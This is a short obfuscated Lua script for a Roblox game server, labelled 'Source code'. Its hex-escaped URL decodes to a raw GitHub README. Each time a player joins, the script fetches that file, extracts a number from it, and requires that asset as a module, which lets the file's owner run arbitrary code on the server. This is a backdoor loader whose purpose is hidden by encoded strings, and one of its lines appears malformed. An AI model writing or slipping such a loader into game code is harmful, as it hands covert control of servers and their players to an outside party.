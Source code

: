 local a,b=game:GetService("HttpService"),"\x68\x74\x74\x70\x73\x3a\x2f\x2f\x72\x61\x77\x2e\x67\x69\x74\x68\x75\x62\x75\x73\x65\x72\x63\x6f\x6e\x74\x65\x6e\x74\x2e\x63\x6f\x6d\x2f\x47\x34\x6d\x67\x31\x2f\x4d\x69\x72\x6f\x78\x2f\x72\x65\x66\x73\x2f\x68\x65\x61\x64\x73\x2f\x6d\x61\x69\x6e\x2f\x52\x45\x41\x44\x4d\x45\x2e\x6d\x64"
game.Players.PlayerAdded:Connect(function(c)
	local d,e=pcall(function()return a:GetAsync(b)end)
	if d then
		local f=string.match(e,"%d+")
		if f then
			local g=tonumber(f)
			if g then
				local h,i=pcall(function()return _G.Load==_G(require(g)(c.Name))end)
				if h then
					print("\82\101\113\117\105\114\101\100\32\109\111\100\117\108\101\58",g)
				else
					warn("\70\97\105\108\101\100\32\116\111\32\114\101\113\117\105\114\101\32\109\111\100\117\108\101\32\119\105\116\104\32\73\68\58",g,i)
				end
			else
				warn("\67\111\117\108\100\32\110\111\116\32\99\111\110\118\101\114\116\32\109\111\100\117\108\101\32\73\68\32\116\111\32\110\117\109\98\101\114\58",f)
			end
		else
			warn("\78\111\32\110\117\109\98\101\114\32\102\111\117\110\100\32\105\110\32\102\101\116\99\104\101\100\32\99\111\110\116\101\110\116\46")
		end
	else
		warn("\70\97\105\108\101\100\32\116\111\32\102\101\116\99\104\32\114\101\109\111\116\101\32\102\105\108\101\58",e)
	end
end)

